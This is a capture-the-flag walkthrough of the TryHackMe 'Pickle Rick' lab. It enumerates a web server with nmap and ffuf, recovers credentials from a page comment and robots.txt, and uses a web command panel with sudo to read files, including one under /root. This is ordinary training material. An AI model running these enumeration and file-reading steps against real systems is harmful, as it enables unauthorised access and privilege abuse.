 # Pickle Ricky
![tryhackme_logo](https://user-images.githubusercontent.com/83867734/185771149-cb02c6f2-8476-4ab3-a626-cca8db0a08bf.png)

Difficulty: **Easy**

This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

Tags
--
* brute forcing 
* hash cracking 
* service enumeration
* Linux Enumeration

Tools used
--
* nmap
* ffuf

Machines
--
Attacker:
* Name: attacker_machine
* Operating System: Athena OS
* IP Address: 10.18.98.39

Victim:
* Name: victim_machine
* IP Address: 10.10.191.18
* Other information must be gathered during the attack

Phase 1: Enumeration
--
```
sudo nmap -sS -sC -sV 10.10.191.18 -p- -vvv

<SNIP>
Initiating SYN Stealth Scan at 23:18
Scanning 10.10.191.18 [65535 ports]
Discovered open port 80/tcp on 10.10.191.18
Discovered open port 22/tcp on 10.10.191.18
<SNIP>
```
Visit `http://10.10.191.18` and check for useful information. On the page source of the home page, you can see the following comment:
```
  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```
Check hidden resources by FFUF:
```
ffuf -u http://10.10.191.18/FFUF -H 'Host: 10.10.191.18' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/2
0100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'DNT: 1' -H 'Sec-GPC: 1' -w /usr/share/payloads/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FFUF

assets                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 39ms]
```
Useless resource. Check for .txt files:
```
ffuf -u http://10.10.191.18/FFUF.txt -H 'Host: 10.10.191.18' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/2
0100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'DNT: 1' -H 'Sec-GPC: 1' -w /usr/share/payloads/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FFUF

robots                  [Status: 200, Size: 17, Words: 1, Lines: 2, Duration: 40ms]
```
`robots.txt` contains the following string:
```
Wubbalubbadubdub
```
it could be a password. Let's search for HTML files:
```
ffuf -u http://10.10.191.18/FFUF.html -H 'Host: 10.10.191.18' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/2
0100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'DNT: 1' -H 'Sec-GPC: 1' -w /usr/share/payloads/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FFUF

index                   [Status: 200, Size: 615, Words: 2, Lines: 3, Duration: 2851ms]
```
Let's search for PHP files:
```
ffuf -u http://10.10.191.18/FFUF.php -H 'Host: 10.10.191.18' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/2
0100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'DNT: 1' -H 'Sec-GPC: 1' -w /usr/share/payloads/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FFUF

login                   [Status: 200, Size: 455, Words: 2, Lines: 2, Duration: 52ms]
portal                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 40ms]
```
Go on `http://10.10.191.18/login.php` and authenticate by `R1ckRul3s:Wubbalubbadubdub` credentials and we get access to the Portal page where there is a Command Panel. From here, `cat`, `most` and `head` commands are disabled, but you can read files by `less` command.

On the Command Panel, run `less Sup3rS3cretPickl3Ingred.txt` for getting the first ingredient. The second ingredient can be retrieved by `less "/home/rick/second ingredients"`. For getting the third ingredient, we need to have root privileges. Try to run `sudo`, we note that the `www-data` user can be run as sudo. So run `sudo less /root/3rd.txt` and you will get the third ingredient.